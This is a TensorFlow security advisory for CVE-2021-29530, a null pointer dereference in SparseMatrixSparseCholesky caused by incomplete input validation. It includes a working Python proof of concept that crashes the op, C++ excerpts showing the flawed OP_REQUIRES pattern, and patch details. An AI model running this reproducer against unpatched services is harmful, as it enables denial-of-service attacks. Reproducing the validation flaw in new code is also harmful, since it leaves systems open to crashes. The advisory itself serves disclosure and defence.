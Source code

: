 ## TFSA-2021-018: Invalid validation in `SparseMatrixSparseCholesky`

### CVE Number
CVE-2021-29530

### Impact
An attacker can trigger a null pointer dereference by providing an invalid
`permutation` to `tf.raw_ops.SparseMatrixSparseCholesky`:

```python
import tensorflow as tf
import numpy as np
from tensorflow.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([-10.0], dtype=np.float32)
dense_shape = [1, 1]
st = tf.SparseTensor(indices_array, value_array, dense_shape)

input = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)

permutation = tf.constant([], shape=[1, 0], dtype=tf.int32)

tf.raw_ops.SparseMatrixSparseCholesky(input=input, permutation=permutation, type=tf.float32)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/kernels/sparse/sparse_cholesky_op.cc#L85-L86) fails to properly validate the input arguments:

```cc
void Compute(OpKernelContext* ctx) final {
  ...
  const Tensor& input_permutation_indices = ctx->input(1);
  ...
  ValidateInputs(ctx, *input_matrix, input_permutation_indices, &batch_size, &num_rows);
  ...
}

void ValidateInputs(OpKernelContext* ctx,
    const CSRSparseMatrix& sparse_matrix,
    const Tensor& permutation_indices, int* batch_size,
    int64* num_rows) {
  OP_REQUIRES(ctx, sparse_matrix.dtype() == DataTypeToEnum<T>::value, ...)
  ...
}
```

Although `ValidateInputs` is called and there are checks in the body of this
function, the code proceeds to the next line in `ValidateInputs` since
[`OP_REQUIRES`](https://github.com/galeone/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/framework/op_requires.h#L41-L48)
is a macro that only exits the current function.

```cc
#define OP_REQUIRES(CTX, EXP, STATUS)                     \
  do {                                                    \
    if (!TF_PREDICT_TRUE(EXP)) {                          \
      CheckNotInComputeAsync((CTX), "OP_REQUIRES_ASYNC"); \
      (CTX)->CtxFailure(__FILE__, __LINE__, (STATUS));    \
      return;                                             \
    }                                                     \
  } while (0)
```

Thus, the first validation condition that fails in `ValidateInputs` will cause
an early return from that function. However, the caller will continue execution
from the next line. The fix is to either explicitly check `context->status()`
or to convert `ValidateInputs` to return a `Status`.

### Patches
We have patched the issue in GitHub commit
[e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd](https://github.com/galeone/tensorflow/commit/e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
